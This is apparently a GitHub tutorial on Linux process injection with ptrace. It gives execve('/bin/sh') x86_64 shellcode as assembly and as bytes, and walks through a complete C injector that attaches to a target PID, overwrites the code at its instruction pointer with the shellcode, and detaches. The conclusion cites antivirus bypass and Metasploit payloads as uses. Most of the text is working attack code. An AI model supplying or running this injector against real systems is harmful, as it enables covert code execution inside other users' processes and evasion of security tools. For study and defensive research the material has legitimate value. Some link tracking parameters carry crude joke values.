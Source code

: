 # Process Injection in Linux using ptrace lib

In this paper, we'll learn about process injection in linux distros using PTRACE.

## Shellcode

First for that, we need our shellcode, i'll use my own, it's avaliable in my github: [_Link Here_](https://github.com/Yyax13/shellcode).

To make it easier, i'll show the shellcode in ASM down here:

```assembly x86_64
section .text
global _start

_start:
    xor rax, rax                        ; rax turns to null byte

    push rax                            ; push \0 (null byte) to the stack
    mov rbx, 0x68732f6e69622f           ; '/bin/sh' string
    push rbx

    mov rdi, rsp                        ; rdi (path) receive rbx ('/bin/sh\0')

    push rax                            ; null byte (execve require {path, NULL})
    push rdi                            ; ptr to our path
    mov rsi, rsp                        ; rsi (argv) receive
    
    xor rdx, rdx
    mov rax, 59
    
    syscall
```

The shellcode:

```c
unsigned char shellcode[] = {
  0x48, 0x31, 0xc0, 0x50, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73,
  0x68, 0x00, 0x53, 0x48, 0x89, 0xe7, 0x50, 0x57, 0x48, 0x89, 0xe6, 0x48,
  0x31, 0xd2, 0xb8, 0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05
};

```

The .asm has already been documented in the code and in the repo, so i'll not analyze it here.

## The injector

First we need to include everything that we need:

```c
#include <stdio.h>          // printf
#include <stdlib.h>         // NULL
#include <unistd.h>         // getpid and anything else
#include <errno.h>          // for errors
#include <sys/ptrace.h>     // the ptrace lib
#include <sys/wait.h>       // waitpid
#include <sys/user.h>       // type user_regs_struct
#include <sys/types.h>      // pid_t

```


And setup our shellcode:

```c
unsigned char shellcode[] = {
  0x48, 0x31, 0xc0, 0x50, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73,
  0x68, 0x00, 0x53, 0x48, 0x89, 0xe7, 0x50, 0x57, 0x48, 0x89, 0xe6, 0x48,
  0x31, 0xd2, 0xb8, 0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05
};

size_t shellcodeLen = sizeof(shellcode);
```

After that, we already can start the main function (if you want, you can make a function named "inject" and just call in main, who will just handle the argv).

```c
int main(int argc, char **argv)
```

The argc is args count, contains the count of how many args we used in CLI, the argv is a char* array, that contains the args.

### User input PID parsing

For parsing the PID, we need to handle if user insert the PID in CLI, and after that we parse the INT and cast to pid_t

```c
if (argc < 2) { // If args count is less than 2 (1st is the binary path)
    fprintf(stderr, "Usage: %s <pid>\n", argv[0]); // Print the correct usage
    return 1; // Return 1 (shell understand this like: "Some error occurred")

}

// Convert char* from argv to int (unsafe) and cast to pid_t
pid_t procID = (pid_t)atoi(argv[1]); // atoi do the conversion, but is unsafe, the convention is using strtol instead of atoi
if (procID <= 0) {
    fprintf(stderr, "Invalid PID");
    return 1;

}
```

After that we already have the target PID, if you want, you can check if the process really exists.

### Process attaching using PTRACE_ATTACH

After validating target PID, we need to attach it.<br>

> Attaching a process may need root perms, [that article](https://www.kernel.org/doc/Documentation/security/Yama.txt?utm_source=https://github.com/Yyax13/proc_injection) explain how you can check it.

```c
// Attach the PID and check for errors (return -1 = error)
if (ptrace(PTRACE_ATTACH, procID, NULL, NULL) == -1) { // PTRACE_ATTACH just need the PID, so we set NULL, NULL in other args
    perror("Can't attach"); // perror prints smt like: "Can't attach: wow i'm the error message"
    return 1; // End the program

}
```

### Waiting for process

Now, we need to stop the target process, if we don't, we won't be able to overwrite the process RIP.

We can stop using waitpid and the args: `PID, int *status`.

```c
// Wait for target proc stop
int status;
if (waitpid(procID, &status, 0) == -1) { // This '0' can be NULL too
    perror("Can't wait for target");
    goto detach; // Detach ptrace if some error happen

}
```

And check if everything is ok:

```c
// Check if proc successfuly stopped
if (!WIFSTOPPED(status)) { // WIFSTOPPED expands to (((status) & 0xff) == 0x7f) and check if the process stopped
    fprintf(stderr, "Target did not stop as expected\n");
    goto detach;

}
```

### Getting target process registers and RIP

> If you don't know what are "registers", you can read [this article](https://blog.codingconfessions.com/p/linux-context-switching-internals?utm_source=https://github.com/Yyax13/proc_injection)

Now, the process already is stopped, so we can get some info:

```c
// Get target registers of process
struct user_regs_struct regs; // Initialize the variable
if (ptrace(PTRACE_GETREGS, procID, 0, &regs) == -1) { // Use PTRACE_GETREGS with the args procID, 0, &regs to get the process registers (that '0' can be NULL)
    perror("Can't get target regs");
    goto detach;

}
```

Now, we have all registers, but we need to get the RIP, and it's easier than get registers:

```c
unsigned long address = regs.rip; // Just get the rip from regs struct
printf("Target RIP: 0x%llx\n", (unsigned long long)address); // Log
```

## Overwriting the RIP

Now we already can overwrite the RIP to insert our malicious shellcode (in that case, just spawn /bin/sh, but you can use a metasploit shellcode for example):

```c
size_t wordSize = sizeof(unsigned long); // Use sizeof because some CPU archs is different than 8
size_t nWords = (shellcodeLen + wordSize - 1) / wordSize; // Ceiling division: shellcode + wordsize - 1

for (size_t i = 0; i < nWords; i++) {
    unsigned long word = 0; // Current word
    size_t base = i * wordSize; // Base, is the offset in bytes

    // For loop that write the word byte-to-byte
    for (size_t ii = 0; ii < wordSize; ii++) {
        size_t idx = base + ii; // Current base + current byte
        unsigned char byte = (idx < shellcodeLen) ? shellcode[idx] : 0x90; // Create the byte (padding with 0x90 if needed)
        word |= ((unsigned long)byte) << (8 * ii); // I don't knew that, a |= b means a = a | b, it's a OR bit operator, and the << is a bit more complicated for that comment, article down

    }

    /*
      POKETEXT writes a word in the address of the process
      in our case, we use it to write our word in address + base (rip + current offset)
    */
    if (ptrace(PTRACE_POKETEXT, procID, (void*)(address + base), (void*)word) == -1) {
        perror("Some error occurred in POKETEXT");
        goto detach;

    }

    printf("Wrote 0x%lx --> 0x%llx\n", word, (unsigned long long)(address + base)); // Log

}
```

> If you don't know what is a word, read [this article](https://www.techtarget.com/whatis/definition/word?utm_source=pornhub.com)<br>
> If you don't know what is the byte order, read [this article](https://betterexplained.com/articles/understanding-big-and-little-endian-byte-order/?utm_source=roblox.com)<br>
> If you don't know what << do, read [this article](https://www.geeksforgeeks.org/cpp/left-shift-right-shift-operators-c-cpp/?utm_source=xvideos.com)

Injection done! Now we just need to detach the process and have fun

## Detaching the process

This is the final step, we just need to detach:

```c
if (ptrace(PTRACE_DETACH, procID, NULL, NULL) == -1) { // Very simple, i think that we don't need to explain that
    perror("Can't detach target");
    return 1;

}
```

## Error handling

If you really read this paper, you saw `goto detach` some times, and here is the `detach` label:

```c
detach: 
    if (ptrace(PTRACE_DETACH, procID, NULL, NULL) == -1) {
        perror("Can't detach target");
        
    }

    return 1;
```

## Conclusion

Process injection is a very interesting topic, and can be used in many ways, for example, to bypass some AVs, or to make a process run something that it don't need to run.

![[Demo in tria.ge](https://tria.ge/250929-vfegeaaj8w)](sandbox.png)

---

> Article by [@hoWo](https://github.com/Yyax13)